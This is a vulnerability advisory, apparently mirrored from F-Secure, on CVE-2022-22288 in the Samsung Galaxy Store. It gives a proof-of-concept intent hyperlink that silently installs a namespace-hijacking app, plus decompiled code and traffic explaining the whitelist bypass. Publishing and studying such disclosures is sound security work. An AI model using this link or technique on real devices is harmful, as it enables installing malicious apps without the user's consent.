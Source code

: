 ```yaml
---
layout: page
title: CVE-2022-22288 Details
permalink: /cves/cve-2022-22288
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/](https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/)

|    **Product**    | Galaxy Store prior to version 4.5.36.5 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-22288             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store application contained an issue with how it handled browsable intents. Additionally, it was possible to upload a malicious application to the Galaxy App Store and have Samsung host the application. If a user was convinced to tap an attacker controlled hyperlink, the uploaded malicious application would have been automatically installed onto the victim's device without consent. 

## The Exploit

The following hyperlink could have been used to abuse a browsable intent in the Samsung Galaxy App Store application. This link would install a malicious application that has hijacked the namespace of a whitelisted application on the Samsung App Store. An attacker can host this link from any web server:

```
<a id="yayidyay" rel="noreferrer" href="intent://apps.samsung.com/appquery/appDetail.as?
appId=live.hatch.russa&directInstall=true&installReferrer=yayreferreryay&directOpen=true&
simpleMode=true#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;
scheme=http;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
```

## Technical Details

The malicious application that would have been installed is Boops Boops, a re-skinned Drozer application. This issue occurs due to a bug in the Samsung Galaxy App Store (com.sec.android.app.samsungapps) class com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink method putDetailCommonExtra:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

* isDirectInstall is taken from the browsable intent query parameter “directInstall” and returns either True or False
* getSender is either the package name or the website URL that sent the browsable intent, which is retrieved from the intent string extra "sender" (this intent extra is added or modified in intents by the Android OS when an intent is sent from one application to another)
* getDetailID is taken from the browsable intent query parameter “appId”
* enableDDI code is below:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

* isGalaxyStore returns true if the intent sender package name was com.sec.android.app.samsungapps or if the website that sent the browsable intent was http://com.sec.android.app.samsungapps
* isWhiteListAppForOneClick returns true if the target package name is in a Samsung controlled whitelist

The intent sender package name can be set by an attacker via the intent string extra android.intent.extra.REFERRER_NAME=com.sec.android.app.samsungapps. Without this intent string extra, isGalaxyStore would return false since the intent sender would have been a different value, such as the attacker's website URL.

The Samsung controlled whitelist is obtained by the Galaxy Store application via the following POST request:

```
POST /ods.as?reqId=2355 HTTP/1.1
Accept: image/webp
Content-Type: text/plain; charset=UTF-8
User-Agent: Dalvik/2.1.0 (Linux; U; Android 11; SM-G991B Build/RP1A.200720.012)
Host: us-odc.samsungapps.com
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 952
 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<SamsungProtocol networkType="0" version2="3" lang="EN" openApiVersion="30" deviceModel="SM-G991B" deviceMakerName="samsung" 
deviceMakerType="0" mcc="310" mnc="00" csc="XME" odcVersion="4.5.30.5" scVersion="1000000" 
storeFilter="themeDeviceModel=SM-G991B_TM||OTFVersion=11010001||gearDeviceModel=SM-G991B_SM-R800||gOSVersion=4.0.0"
supportFeature="ARW||AOD" version="6.8" filter="1" odcType="01" cacheVersion="1" systemId="<redacted>" sessionId="<redacted>" 
logId="<redacted>" deviceFeature="locale=en_US||abi32=armeabi-v7a:armeabi||abi64=arm64-v8a" userMode="0">
<request name="whiteAppInfo" id="2355" numParam="4" transactionId="<redacted>"><param name="accountCountry">
USA</param><param name="guestDownloadInfo">Y</param><param name="accountMcc">310</param><param name="requestTypeCode">0</param>
</request></SamsungProtocol>
```

The whitelist is found in the response parameter popupDownloadAppList:

```
...
<value name="popupDownloadAppList">mobi.abcmouse.samsung||com.audible.application.samsung||com.booking.forsamsung||com.cnn.mobile.android.phone|
|com.golfnow.android.samsung.teetimes||com.scribd.app.samsung||com.shazam.android||com.shutterfly.samsung||com.skimble.workouts||me.swiftgift.swiftgift.samsung|
|com.weather.samsung||com.touchofmodern.samsung||com.tubitv.samsung||com.ua.shop.samsung||com.yelp.android||com.aaptiv.android.samsung|
|com.lifesum.madeforsamsung||com.getliner.Liner||com.vsco.cam.samsung||com.rosettastone.madeforsamsung.courseplayer||com.aita||com.degoo.android.samsung|
|com.adobe.reader||com.samsung.m4sscreen||com.adobe.premiererush.videoeditor.samsung||live.hatch.russa||jp.gocro.smartnews.android||com.getsomeheadspace.android||com.viewbug.viewbug||com.postmates.android||com.getaround.android</value>
...
```

It was found that the package name live.hatch.russa was on the Samsung white list, but that package did not exist on the Samsung App Store itself. F-Secure deployed their custom re-skinned Drozer application called "Boops Boops" to the Samsung App Store with the package name live.hatch.russa.

yaypictureyay

Source code for the Boops Boops application can be found here: https://github.com/FSecureLABS/boops-boops-android-agent

Source code for the Boops Boops Docker Container which can be used to interact with Boops Boops can be found here: https://github.com/FSecureLABS/boops-boops-docker-container


## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.5 which addresses this issue. Additionally, F-Secure has attempted to re-upload Boops Boops with the package name live.hatch.russa several times to the Galaxy Store, and it now gets taken down due to a copyright warning.